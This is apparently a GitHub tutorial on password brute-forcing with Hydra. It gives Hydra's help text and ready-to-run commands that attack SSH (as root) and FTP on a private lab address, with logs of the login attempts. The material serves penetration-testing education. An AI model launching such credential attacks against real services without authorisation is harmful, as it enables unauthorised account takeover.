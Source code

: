 # BruteForcing
Brute force attack is a method used in cryptanalysis to find a password or key. It involves testing, one by one, all possible combinations. 
* This method is generally considered the simplest conceivable.
* It allows any password to be broken in a finite time regardless of the protection used, but the time increases with the length of the password
* This method is often combined with dictionary and rainbow table attack to find the secret faster.

## Tool
<hr>

### Hydra
* Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.
* Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

### Launch hydra

```bash
hydra
```
output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

`Example : hydra -l user -P passlist.txt ftp://192.168.0.1`

## protocols supported.
<img src="forcebruteP.png" width="80%">

# let's try
```bash
hydra -l root -x 1:9:aA1 192.168.133.129 ssh
```
```bash
hydra -V -l root -x 1:9:aA1 192.168.133.129 ssh
```
output

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 16:59:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 242234 login tries (l:1/p:242234), ~15140 tries per task
[DATA] attacking ssh://192.168.133.129:22/
```
## Brute forcing
we will create two files containing usernames and passwords.

### Let's try
```bash
hydra -V -L usernames -P passwords 192.168.133.129 ftp

````
Output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 17:35:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://192.168.133.129:21/
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty12" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty12" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty12" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty12" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty12" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty" - 11 of 16 [child 10] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty12" - 12 of 16 [child 11] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty" - 13 of 16 [child 12] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty12" - 14 of 16 [child 13] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty" - 15 of 16 [child 14] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty12" - 16 of 16 [child 15] (0/0)
|
```

